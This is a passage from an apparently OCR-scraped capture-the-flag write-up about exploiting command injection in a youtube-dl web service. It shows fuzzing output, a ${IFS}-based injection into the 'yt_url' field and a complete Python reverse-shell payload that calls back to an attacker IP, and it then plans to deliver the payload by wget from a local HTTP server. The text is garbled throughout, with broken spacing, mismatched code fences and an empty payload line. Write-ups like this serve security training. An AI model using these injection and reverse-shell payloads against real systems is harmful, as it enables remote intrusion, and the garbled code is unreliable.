 ``` python
TRYING:> =====================================

{"status": 2, "errors": "sh: 1: cannot create \ / var \ / www \ / html: Is a directory \ n", "url_orginal": ">` pwd` "," output ": "", "result_url": "\ / tmp \ / downloads \ /5ed7740e7c7a1.mp3"}


TRYING: | =====================================

{"status": 126, "errors": "sh: 1: \ / var \ / www \ / html: Permission denied \ nWARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nUsage: youtube-dl [OPTIONS] URL [URL ...] \ n \ nyoutube-dl: error: You must provide at least one URL. \ nType youtube-dl --help to see a list of all options. \ n "," url_orginal ":" | `pwd`", "output": "", "result_url": "\ / tmp \ / downloads \ /5ed7741744d6e.mp3"}
TRYING:} =====================================

['&', ';', '>', '|']
```
Many of these characters are just special characters in bash. The ">" sign, however, gives us extraordinary results. It does not return an authorization error.
But how to replace spaces so that we do not cut off the rest of the command? There is a bash environment variable named '' $ {IFS} '' 'Internal Field Separator'.
Let's check another command. This time ls. Our payload looks like this:

```python
'yt_url': ''
```

Here are the results:
```python
! "# $% & '() * +, -. / :; <=>? @ [\] ^ _` {|} ~
{"status": 2, "errors": "sh: 1: cannot create \ t \ n \ t \ n - exec + whoami \ n - exec + whoami \ n - exec + whoami \ nf \ nadmin \ nimages \ nindex.php \ njs \ nstyle.css \ ntmp \ nf \ nadmin \ nimages \ nindex.php \ njs \ nstyle.css \ ntmp \ n - exec + whoami \ nf \ nadmin \ nimages \ nindex.php \ njs \ nstyle.css \ ntmp \ nf \ nadmin \ nimages \ nindex.php \ njs \ nstyle.css \ ntmp \ n - exec + whoami \ n - exec + whoami \ n - exec + whoami \ nf \ nadmin \ nimages \ nindex.php \ njs \ nstyle.css \ ntmp \ nf \ nadmin \ nimages \ nindex.php \ njs \ nstyle.css \ ntmp \ n - exec + whoami \ nf \ nadmin \ nimages \ nindex.php \ njs \ nstyle.css \ ntmp \ nf \ nadmin \ nimages \ nindex.php \ njs \ nstyle.css \ ntmp: File name too long \ n "," url_orginal ":"> $ {IFS} `ls`", "output ":" "," result_url ":" \ / tmp \ / downloads \ /5ed7775d89d70.mp3 "}
```

## ENUMERATION
Apparently we have RCE;). We can start creating a reverse shell. It will be a simple payload taken from pentestmonkey.net. We will also create a separate folder for this file. Payload looks like this:
``` python
import socket, subprocess, os; s = socket.socket (socket.AF_INET, socket.SOCK_STREAM); s.connect (("192.168.56.xxx", 1234)); os.dup2 (s.fileno (), 0 ); os.dup2 (s.fileno (), 1); os.dup2 (s.fileno (), 2); p = subprocess.call (["/ bin / sh", "- i"]); ```
We create a file called rev.py and put payload there
```
It would be a cool thing to send this payload with ``` wget ```. For this, we need to create a page from which the server will download the payload. We do it with the help of the brilliant "SimpleHTTPServer" library in python.
